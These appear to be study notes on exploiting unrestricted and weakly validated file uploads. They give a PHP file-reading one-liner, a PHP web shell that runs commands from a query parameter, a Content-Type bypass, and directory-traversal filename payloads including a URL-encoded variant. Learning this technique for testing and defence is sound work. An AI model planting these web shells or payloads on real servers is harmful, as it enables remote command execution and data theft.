 # Exploiting unrestricted file uploads to deploy a web shell

**The following PHP one-liner could be used to read arbitrary files from the server's filesystem:**

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```

Once uploaded, sending a request for this malicious file will return the target file's contents in the response.

**A more versatile web shell may look something like this:**

```php
<?php echo system($_GET['command']); ?>
```

This script enables you to pass an arbitrary system command via a query parameter as follows:

```
GET /example/exploit.php?command=id HTTP/1.1
```

# Exploiting flawed validation of file uploads

One way that websites may attempt to validate file uploads is to check that this input-specific Content-Type header matches an expected MIME type. If the server is only expecting image files, for example, it may only allow types like **image/jpeg** and **image/png**. Problems can arise when the value of this header is implicitly trusted by the server. If no further validation is performed to check whether the contents of the file actually match the supposed MIME type, this defense can be easily bypassed using tools like Burp Repeater.

# Preventing file execution in user-accessible directories

While it's clearly better to prevent dangerous file types being uploaded in the first place, the second line of defense is to stop the server from executing any scripts that do slip through the net.

As a precaution, servers generally only run scripts whose MIME type they have been explicitly configured to execute. Otherwise, they may just return some kind of error message or, in some cases, serve the contents of the file as plain text instead

## Tip

Web servers often use the filename field in multipart/form-data requests to determine the name and location where the file should be saved.

In the Content-Disposition header, change the filename to include a directory traversal sequence:

```
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
```

## Some time the server strip the directory traversal sequence from the file name

Then we need to obfuscate the directory traversal sequence by URL encoding the forward slash (/) character, resulting in:

```
filename="..%2fexploit.php"
```